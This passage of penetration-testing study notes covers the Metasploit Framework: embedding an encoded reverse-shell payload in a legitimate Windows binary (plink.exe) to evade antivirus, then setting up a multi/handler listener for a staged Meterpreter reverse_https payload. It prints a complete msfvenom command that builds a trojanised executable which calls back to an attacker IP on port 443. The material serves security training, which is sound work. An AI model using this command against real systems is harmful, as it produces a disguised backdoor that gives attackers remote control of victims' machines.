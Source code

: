   ![Picture](../22.%20The%20Metasploit%20Framework/Image/24.png)
- Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection. The injection is done with the -x flag, specifying the file to inject into.
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.156 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
  ```
  ![Picture](../22.%20The%20Metasploit%20Framework/Image/25.png)

### Metasploit Exploit Multi Handler

- When using the multi/handler module, we must specify the incoming payload type.
- In the example below, we will instruct the multi/handler to expect and accept an incoming windows/meterpreter/reverse_https Meterpreter payload that will start a first stage listener on our desired port, TCP 443. Once the first stage payload is accepted by the multi/handler, the second stage of the payload will be fed back to the target machine and executed.
- After setting the parameters, we will run exploit to instruct the multi/handler to listen for a connection.